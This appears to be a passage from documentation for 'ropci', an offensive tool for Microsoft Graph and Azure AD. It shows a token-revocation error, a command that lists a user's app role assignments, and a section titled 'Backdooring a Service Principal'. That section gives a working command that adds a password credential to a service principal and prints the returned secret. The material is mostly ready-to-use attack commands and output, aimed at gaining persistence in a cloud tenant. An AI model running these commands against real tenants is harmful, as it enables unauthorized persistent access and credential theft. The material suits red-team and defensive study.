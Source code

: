 ```
AADSTS50173: The provided grant has expired due to it being revoked, a fresh auth token is needed. The user might have changed or reset their password. The grant was issued on '2022-09-05T18:48:10.7367392Z' and the TokensValidFrom date (before which tokens are not valid) for this user is '2022-09-05T18:48:54.0000000Z'
```

Refresh tokens have been invalidated for the logged on user. If the account has the right permissions one can also call `/users/username@expample.org/invalidateAllRefreshTokens` to invalidate refresh tokens of another account.

## Application Role Assignments of a user

[Graph API Documentatin](https://docs.microsoft.com/en-us/graph/api/user-list-approleassignments?view=graph-rest-beta&tabs=http)

```
./ropci call -c /users/user@example.org/appRoleAssignments -f id -f principalDisplayName -f resourceDisplayName -f resourceId
+---------------------------------------------+----------------------+-------------------------+--------------------------------------+
|                     id                      | principalDisplayName |   resourceDisplayName   |              resourceId              |
+---------------------------------------------+----------------------+-------------------------+--------------------------------------+
| 5c6Mg23JVUWFS5E9XaB_vQObgianBrBMugogPRfMvYU | Vera Mitchell        | Apple Internet Accounts | 36559af8-a122-4101-b6c7-adccfa24506d |
| 5c6Mg23JVUWFS5E9XaB_vUG-XjOYoexCm4D9r2fYwxI | Vera Mitchell        | Graph Explorer          | f3ff1808-52d0-4516-b090-28a06cd24783 |
| 5c6Mg23JVUWFS5E9XaB_vaBGH-RIpJRMuE0qYZ7s5ZE | Vera Mitchell        | AppForHealthServices    | 48359af7-af3a-42d4-abe2-8425a14689c9 |
+---------------------------------------------+----------------------+-------------------------+--------------------------------------+
```

## Backdooring a Service Principal (adding additional password)

```
$ ./ropci call -c /servicePrincipals/48359af7-af3a-42d4-abe2-8425a14689c9/addPassword \ 
--verb POST  -b '{"passwordCredential": { "displayName": "ropci says this is fine"}} | jq

{
  "@odata.context": "https://graph.microsoft.com/beta/$metadata#servicePrincipals('48359af7-af3a-42d4-abe2-8425a14689c9')/addPassword",
  "@odata.type": "#microsoft.graph.servicePrincipal",
  "customKeyIdentifier": null,
  "endDateTime": "2024-09-05T19:48:11.1638864Z",
  "keyId": "c47e91ff-986c-4f8f-9cc0-d41bdd038d49",
  "startDateTime": "2022-09-05T19:48:11.1638864Z",
  "secretText": "Yhj8Q~H1np.....4iEGuf0djD",
  "hint": "Yhj",
  "displayName": "ropci says this is fine"
}
```
